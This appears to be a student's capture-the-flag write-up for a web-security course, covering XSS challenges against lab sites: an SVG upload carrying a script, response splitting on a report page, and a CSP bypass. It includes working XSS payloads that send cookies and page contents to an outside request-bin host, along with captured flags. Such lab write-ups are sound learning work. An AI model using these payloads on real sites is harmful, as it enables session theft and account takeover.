     <svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
       <rect width="300" height="100" style="fill:rgb(0,0,255);stroke-width:3;stroke:rgb(0,0,0)" />
       <script type="text/javascript">
          fetch(`https://enxwgp951veoi.x.pipedream.net?cookie=?cookie=${document.cookie}`)
       </script>
    </svg>
    ```

  - There appears to be a report button which given a path, reports that page. Similarly to `science-today.quoccabank.com`, we can report a page that contains our XSS payload which gives us a flag in request bin. It also appears that we can directly access the image we uploaded (that contains the XSS) payload by finding the path through inspect element

    - Using Burp, modify the POST request of `/report` such that the `path` parameter is the image PATH instead.
    - Check request bin to find the flag.

### report.quoccabank.com

- Recon
  - The robots.txt reveals `/view` route. When accessing it, it appears that it requires a report id
  - Cookies are HTTPOnly - meaning that we cannot send over cookies using a fetch request
  - Everytime a report is submitted, a cookie is generated during that session (must not have an existing cookie). The cookie is a JWT token base64 encoded. When decoded, it appears to have an IDOR to the report id
  - From here, if we have the report id, presumably we can access it in the view route found in robots.txt i.e. `/view/<report_id>` to load our report
  - When inspecting the report page, it appears to sanitize any XSS injection in the JavaScript. The method that it does is found in the source code.
  
- COMP6443{WHY_ARE_YOU_REPORTING_ME.ejUzMTI3OTk=.ze6K45qLXI7RCd0vnvSaUw==}

  - [XSS via HTTP Response Splitting ](https://www.youtube.com/watch?v=esG3KK4jJTo)exploit (carriage newline attack)

  - Inspecting the headers when the `/view/<report_id>` page is loaded, it appears to have a header `x-meta` that uses the title of the report as its value.

  - We can use response splitting exploit to move the cookie in the header to the HTML body/page. From there, we can send a request with the HTML text (which contains the pushed cookie headers). We use a script tag before since it triggers a race condition (since it deletes that tag in the array, the second tag is not deleted)

  - Use the payload below when submitting a POST request to `/report`

    ```html
    name=aaa\r\n\r\n&content=<script></script><svg onload=fetch(`https://en3tk558zj4d1.x.pipedream.net/?cookie=${document.documentElement.innerText}`)>test</svg>
    ```

### csp.quoccabank.com

- COMP6443{CSP_CHA_1_LEV1.ejUzMTI3OTk=.OIRdkbFm4Ta6OWpYlticnQ==}

  - Change `script-src` header to allow scripts to load. Console log to reveal information
